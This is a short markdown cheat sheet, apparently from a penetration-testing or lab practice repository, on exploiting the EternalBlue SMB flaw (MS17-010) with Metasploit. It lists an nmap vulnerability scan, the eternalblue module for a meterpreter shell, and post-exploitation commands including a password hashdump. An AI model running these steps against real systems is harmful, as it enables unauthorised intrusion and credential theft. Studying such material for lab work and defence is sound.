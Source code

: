# smb-vuln-ms17-010 | CVE-2017-0143 | EternalBlue

## Metasploit

1. Check if target is vulnerable
   
        nmap --script vuln -p 137,139,445 10.10.10.4

2. Use Metasploit module `windows/smb/ms17_010_eternablue` to obtain **meterpreter** shell access

        getuid
        run post/windows/gather/hashdump
        ipconfig

## References

* https://www.lmgsecurity.com/manually-exploiting-ms17-010/